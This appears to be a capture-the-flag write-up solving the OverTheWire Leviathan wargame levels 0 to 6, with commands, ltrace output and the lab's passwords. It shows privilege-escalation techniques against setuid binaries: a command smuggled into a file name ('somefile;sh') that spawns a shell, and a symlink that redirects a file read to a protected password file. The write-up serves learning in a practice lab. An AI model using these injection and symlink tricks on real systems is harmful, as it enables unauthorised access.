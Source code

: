 # Solutions
**THERE ARE SPOILERS AHEAD.**

These are my full solutions to the [leviathan](https://overthewire.org/wargames/leviathan/) ctf wargame. This is an "introductory" wargame so most of the challenges are fairly easy if you're familiar with common linux commands. If you're not familiar with the linux commands already, this ctf can be challenging but doable if you read the man pages and follow the hints. **Don't be discouraged!** You're learning a new language.

There are also a lot of good resources online for this war game in case you get stuck. My solutions will be fairly terse, although I will try to point out interesting things I find.


## Level 0
We log in with the username and password `leviathan0` given to us by the prompt.

## Level 0 to Level 1
Taking a look around on the server, this CTF seems to be structured similarly to the `bandit` other wargames that have passwords in `/etc/leviathan_pass/<password_file>`. Unfortunately, we can't read the `/etc/leviathan_pass/leviathan1` file.

Looking at the current directory, we see the following:

```bash
leviathan0@leviathan:~$ ls -hartl
total 24K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
drwxr-x---  2 leviathan1 leviathan0 4.0K Aug 26  2019 .backup
drwxr-xr-x  3 root       root       4.0K Aug 26  2019 .
```

If we take a look in `.profile`, `.bashrc`, `.bash_logout`, we don't really see anything that stands out. `.backup` looks suspicious though. Inside that hidden directory, it has 1 file, `bookmarks.html` which is absolutely full of junk. Let's go out on a limb and try `cat bookmarks.html | grep leviathan` and hope for the best. Lo and behold, we are rewarded with the following:

```
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

password: `rioGegei8m`

## Level 1 to Level 2
Looking in the main directory again, we see there's a file called `check`:

```bash
leviathan1@leviathan:~$ ls -hartl
total 28K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
-r-sr-x---  1 leviathan2 leviathan1 7.3K Aug 26  2019 check
drwxr-xr-x  2 root       root       4.0K Aug 26  2019 .
```

It's a `setuid` binary which means that, if we can run it, it will run as the `leviathan2` user (the owner of the file). We can tell that by the `s` bit in the permissions section of the `check` file.

When we try to run it, it prompts us for a password. The current level's password does not work.

Going out on a limb again, let's look through `strings check` to see if anything stands out. There are a few things that looked like they may have been passwords, but none of them work if we try.

We're gonna get really desperate now and run `cat check`... on a binary file!? Yes. Scanning through, we see a LOT of garbage, but a few interesting words pop up. `sex`, `god`, `love`.

Running `check` and inputting `sex` for the password gives us a new prompt! Running `whoami` tells us that we are now `leviathan2`. Awesome. Time to get the password from `/etc/leviathan_pass/leviathan2`

password: `ougahZi8Ta`

## Level 2 to Level 3
Looking inside here, we again see a `setuid` binary called `printfile`. Running `printfile` alerts us to the fact that we need to give it a `filename` argument. Running `./printfile /etc/leviathan_pass/leviathan3` tells us that "cant have that file...". Hmm. `strings` and `cat` are no help here.

I had to do some googling for this one, and I found out about the `ltrace` command, which allows us to see what calls are made when we run a binary, like so:

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                     = -1
puts("You cant have that file..."You cant have that file...
)                              = 27
+++ exited (status 1) +++
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                       = 12002
geteuid()                                                       = 12002
setreuid(12002, 12002)                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

So, _if_ we had permission to the file, the system would run `/bin/cat <file>`. When we check for access, though, `printfile` tells us we don't have it. We can see that the system calls directly (without any sanitization). So, theoretically (and in actuality), we can make `printfile` run:

`/bin/cat /tmp/somedir/somefile;sh` which will plop us into the shell for `leviathan3`. We just need to

```
mkdir /tmp/somedir/
touch "/tmp/somedir/somefile;sh"
./printfile "/tmp/somedir/somefile;sh"
```

password: `Ahdiemoo1j`

There's also a slightly more in depth trick utilizing symlinks that can be found by googling for the solution to this level. I like my solution :).

## Level 3 to Level 4
Now we have an executable file called `level3` that prompts us for a password when we execute it. This level is pretty easy since we know about `ltrace`.  iIt tells us that the password we need to enter to the binary is `snlprintf` (look at the `strcmp` below):
 i
```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                      = -1
printf("Enter the password> ")                                  = 20
fgets(Enter the password> dumb
"dumb\n", 256, 0xf7fc55a0)                                = 0xffffd590
strcmp("dumb\n", "snlprintf\n")                                 = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                      = 19
+++ exited (status 0) +++
```

Utilizing that password gives us the `leviathan4` shell from which we can `cat /etc/leviathan_pass/leviathan4`.

password: `vuH0coox6m`

## Level 4 to Level 5
No executable this time. This time we find a `.trash` directory. Let's go dumpster diving! Inside `./trash` we see a binary called `bin`. Running it gives binary output.

```bash
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```

Let's convert it to an ascii string and see what happens. I just threw the output into [this converter](https://www.binaryhexconverter.com/binary-to-ascii-text-converter) and got the output: `Tith4cokei`.

Lucky us, that's the password!

password: `Tith4cokei`

## Level 5 to Level 6
Another level, another `setuid` binary! This one looks for a `/tmp/file.log` which doesn't exist:

```bash
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                     = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                               = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

If we make that file, we get the following:

```bash
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                     = 0x804b008
fgetc(0x804b008)                                                = '\377'
feof(0x804b008)                                                 = 1
fclose(0x804b008)                                               = 0
getuid()                                                        = 12005
setuid(12005)                                                   = 0
unlink("/tmp/file.log")                                         = 0
+++ exited (status 0) +++
```

Hmm... let's put something in the file.

```bash
leviathan5@leviathan:~$ echo "test" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
test
```

So, it seems like it just outputs whatever is in /tmp/file.log. Now finally seems like a good time for symbolic links (which I definitely don't remember how to create, so I google it). The format is like this: `ln -s source_file myfile`

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

password: `UgaoFee4li`

